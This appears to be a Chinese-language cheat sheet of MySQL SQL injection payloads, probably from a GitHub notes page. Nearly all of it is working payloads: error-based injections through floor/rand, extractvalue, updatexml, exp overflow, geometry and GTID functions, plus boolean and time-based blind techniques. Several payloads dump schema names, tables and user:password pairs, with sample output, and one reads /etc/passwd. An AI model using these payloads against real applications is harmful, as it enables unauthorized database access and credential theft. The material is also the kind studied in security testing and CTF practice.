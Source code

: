 ### substr()
### if()
`IF( expr1 , expr2 , expr3 )`
expr1 的值为 TRUE，则返回值为 expr2   
expr1 的值为FALSE，则返回值为 expr3
### ifnull()
`IFNULL( expr1 , expr2 )`
判断第一个参数expr1是否为NULL：
如果expr1不为空，直接返回expr1；
如果expr1为空，返回第二个参数 expr2
### ascii()
`ASCII ( input_string )`
`ASCII()`函数接受字符表达式并返回字符表达式最左侧字符的ASCII代码值,`input_string`可以是文字字符，字符串表达式或列。 如果`input_string`有多个字符，则该函数返回其最左侧字符的ASCII代码值
## 报错注入
### floor()
（8.x>mysql>5.0）[双查询报错注入]。函数返回小于或等于指定值（value）的最小整数,取整
`select count(*),(floor(rand(0)*2)) as x from 表名 group by x`
```mysql
# 爆库
SELECT * FROM user_rule WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,(SELECT schema_name from information_schema.schemata LIMIT 0,1),0x23,floor(rand(0)*2)) as x 
from information_schema.`COLUMNS` GROUP BY x) 
as y)
# 爆表
SELECT * FROM user_rule WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,
(SELECT table_name from information_schema.`TABLES` WHERE table_schema = database() LIMIT 0,1),
0x23,floor(rand(0)*2)) as x 
from information_schema.`COLUMNS` GROUP BY x) 
as y)
# 爆列
SELECT * FROM user_rule WHERE id = 1 AND (SELECT 1 from 
(SELECT count(*),concat(0x23,(SELECT column_name from information_schema.COLUMNS where table_name = 'members' LIMIT 0,1),
0x23,floor(rand(0)*2)) as x 
from information_schema.`COLUMNS` GROUP BY x) 
as y)
```
### extractValue(xml_frag, xpath_expr)
在第二个参数位置操作
```MYSQL
 AND (EXTRACTVALUE('awdwadwa',CONCAT('#',SUBSTR(HEX((SELECT DATABASE())),1,1000))))
```
### updateXML(xml_target, xpath_expr,new_xml)
```MYSQL
 AND UPDATEXML(1,CONCAT(0x7e,(SELECT USER()),0x7e),1)
```

### EXP(9999)
MYSQL5.5.5及以上
EXP()函数用于将E提升为指定数字X的幂，这里E(2.718281 ...)是自然对数的底数。
MySQL 能记录的 Double 数值范围有限，一旦结果超过范围，则该函数报错。这个范围的极限是 709，当传递一个大于 709 的值时，函数 exp() 就会引起一个溢出错误
```mysql
# 表名
select exp(~(select * from(select group_concat(table_name) from information_schema.tables where table_schema=database())x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'flag,users' from dual)))'
# 列名
select exp(~(select*from(select group_concat(column_name) from information_schema.columns where table_name='users')x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'id,username,password' from dual)))'
# 检索数据
select exp(~ (select*from(select group_concat(id, 0x7c, username, 0x7c, password) from users)x));
ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '1|admin|123456,2|whoami|657260,3|bunny|864379' from dual)))'
# 读文件
select exp(~(select * from(select load_file('/etc/passwd'))x));
# dump所有tables和colums
select exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,column_name)),@)))x));

```
### cot(0)
里面是0就会报错。可以结合条件语句进行报错注入
### pow(99999,999999)
求平方，利用数太大导致报错
### geometrycollection()
mysql 版本5.5
```mysql
1') and geometrycollection((select * from(select * from(select version())a)b)); %23
1') and geometrycollection((select * from(select * from(select column_name from information_schema.columns where table_name='manage' limit 0,1)a)b)); %23
1') and geometrycollection((select * from(select * from(select distinct concat(0x23,user,0x2a,password,0x23,name,0x23) FROM manage limit 0,1)a)b)); %23
```
### multipoint()
mysql 版本5.5
```mysql
select multipoint((select * from(select * from(select version())a)b));
```
### ST_LatFromGeoHash&&ST_LongFromGeoHash
```MYSQL
SELECT ST_LongFromGeoHash((SELECT * FROM(SELECT * FROM(SELECT DATABASE())a)b));
```
### ST_Pointfromgeohash
**mysql>5.7**
```MYSQL
')or  ST_PointFromGeoHash(version(),1)--+
')or  ST_PointFromGeoHash((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)--+
')or  ST_PointFromGeoHash((select column_name from information_schema.columns where table_name = 'manage' limit 0,1),1)--+
')or  ST_PointFromGeoHash((concat(0x23,(select group_concat(user,':',`password`) from manage),0x23)),1)--+
```
### GTID_SUBSET&GTID_SUBTRACT
```mysql
SELECT GTID_SUBSET(CONCAT(0x7e,(SELECT VERSION()),0x7e),1)
SELECT GTID_SUBTRACT(CONCAT(0x7e,(SELECT VERSION()),0x7e),1)
SELECT gtid_subtract(concat(0x7e,(SELECT GROUP_CONCAT(user,':',password) from manage),0x7e),1)
```
## 布尔盲注
### payload
```mysql
SELECT (ASCII(RIGHT("qqwdqa",4))<100)   
SELECT ASCII(SUBSTRING((SELECT GROUP_CONCAT(attend_hmtime) FROM aoa_attends_list ),1,1)) 
SELECT ORD(SUBSTRING((SELECT GROUP_CONCAT(attend_hmtime) FROM aoa_attends_list ),1,1))
```
## 时间盲注
### IF+case 打延时
```mysql
SELECT IF(1<2,SLEEP(1),1)
admin' and if(ascii(substr((select database()),1,1))>1,sleep(3),0)#
if((condition), sleep(5), 0);
CASE WHEN (condition) THEN sleep(5) ELSE 0 END;
```
### 无if和case
做乘法决定是否触发sleep
`sleep(5*(condition))`

### 无sleep
#### benchmark
benchmark(执行多少次，执行什么操作)

#### 笛卡尔积
```mysql
SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C;
admin' and if(ascii(substr((select database()),1,1))>1,(SELECT count(*) FROM information_schema.columns A, information_schema.columns B, information_schema.tables C),0)#
```

#### get_lock(str,timeout)
在timeout 秒内尝试获取一个名字为str的锁， 若成功得到锁返回 1，若操作超时还未得到则返回0
#### 正则bug
正则匹配在匹配较长字符串但自由度比较高的字符串时，会造成比较大的计算量，我们通过rpad或repeat构造长字符串
```mysql
select rpad('a',4999999,'a') RLIKE concat(repeat('(a.*)+',30),'b');
```